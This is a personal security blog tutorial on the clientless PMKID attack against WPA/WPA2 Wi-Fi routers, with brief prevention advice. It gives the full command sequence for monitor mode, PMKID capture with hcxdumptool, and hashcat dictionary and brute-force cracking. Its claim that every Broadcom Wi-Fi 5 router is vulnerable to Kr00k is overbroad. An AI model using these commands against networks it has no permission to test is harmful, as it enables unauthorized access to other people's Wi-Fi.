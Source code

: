 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) (with roaming feature) without client involved.  That is 4-way handshake is no longer required - clientless.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods (except Fake Access Point attack) have been tried on the Deco X20 but failed including PMKID attack and [KR00K attack](https://hexway.io/research/r00kie-kr00kie/)  (CVE-2019-15126).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom's.  [KRACK](https://www.krackattacks.com/) was not tested as Support of TP-Link Deco Apps mentioned that Deco X20 is not vulnerable to this attack.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)  
- All tested clients are in AC mode with WPA2  
- TP-Link Deco X20 is set to WPA2 only  

The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan -c 36
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3 -c 36
```

When you see ```[FOUND PMKID]``` or/and ```[FOUND PMKID CLIENT-LESS]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

### Prevention

- Purchase a modern wifi router (**or** when your router is vulnerable to KR00K attack), such as Wifi6 router with WPA3; or  
- WPA/WPA2 password should be secured enough (when your router is not vulnerable to KR00K attack)  

### Q&A

- Which wifi router is vulnerable to KR00K attack?  
All the Wifi5 (IEEE 802.11ac) routers with Broadcom chipset are vulnerable to KR00K attack.  

- What do you mean secured password?  
It should be a very long (longer than 16 characters) and mixed cases (uppercase and lowercase) as well as including printable symbols.  Meanwhile, the password should not be predictable and it should not be found in any dictionary.  It should be better that the password is meaningless.

- What do you mean dictionary?  
It includes general dictionaries, such as Oxford Dictionary and hackers' dictionaries (password lists), such as ```rockyou.txt```. 

- Do you recommend to set **insecured** WPA3 password on Wifi6 router?  
Not recommended.  

Samiux  
OSCE  OSCP  OSWP  
March 22, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

